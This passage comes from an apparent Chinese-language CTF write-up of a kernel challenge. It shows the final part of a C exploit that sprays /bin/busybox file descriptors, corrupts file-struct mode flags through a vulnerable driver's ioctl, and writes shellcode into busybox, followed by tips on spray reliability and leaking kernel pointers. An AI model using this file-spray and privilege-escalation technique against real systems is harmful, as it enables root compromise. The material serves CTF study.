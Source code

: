 ```c
    for(int i = 0; i < SPRAY_NUM; i++){
        busybox_fd[i] = open("/bin/busybox", O_RDONLY);
        if(busybox_fd[i] < 0){
            printf("open /bin/busybox failed, the idx at : %d\n", i);
            return -1;
        }
    }
    printf("sprayed %d busybox file descriptors\n", SPRAY_NUM);
    // do ioctl
    int write_offset = 20;
    push_imm(0x1014); // TODO fix it
    store(write_offset);
    // todo try this out add #define FMODE_CAN_WRITE         ((__force fmode_t)0x40000) flag, used to be 0x004a801d
    push_imm(0x4e801f);
    store(0); // this offset will be modified
    write(fd, tmp, idx); // write to /dev/mememe
    // write to buffer, but will it be lazy allocation? so we spray a second time
    ioctl(fd, 0x7601);
    printf("ioctl done\n");
    for(int i = 0; i < SPRAY_NUM; i++){
        int write_size = write(busybox_fd[i], shellcode, sizeof(shellcode));
        if(write_size > 0) {
          printf("Wrote %d bytes to busybox_fd[%d]\n", write_size, i);
        }
        close(busybox_fd[i]);
    }
    printf("wrote shellcode to busybox file\n");
    printf("type exit to show flags\n");
    return 0;
}
```

## 写法改进
看了 Nightu 师傅的 exp，有如下改进操作来提高 file spray 的成功率（感觉好厉害！）：
1. 一开始对 fd 个数增加 rlimit，然后一口气打开 0x800 个 `/bin/busybox` 的 fd
2. 通过 oob 越界读遍历该 page 后续的页，因为 file struct 的 0xb0 字段是 file_operations 函数指针，相对于 kernel 基地址固定，此处是 `FFFFFFFF82C44D40 shmem_file_operations`，我们可以将该页的 0xb0 offset 处的值 load 到虚拟机的 stack 然后读出，看哪个页上被 spray 到了 file struct，这样就有更多 spray 的准确性

此外，看到了 [这篇 writeup](https://nazrinduck.github.io/2025/05/26/2025jqctf-mem/) 感觉很不错，学到啦    
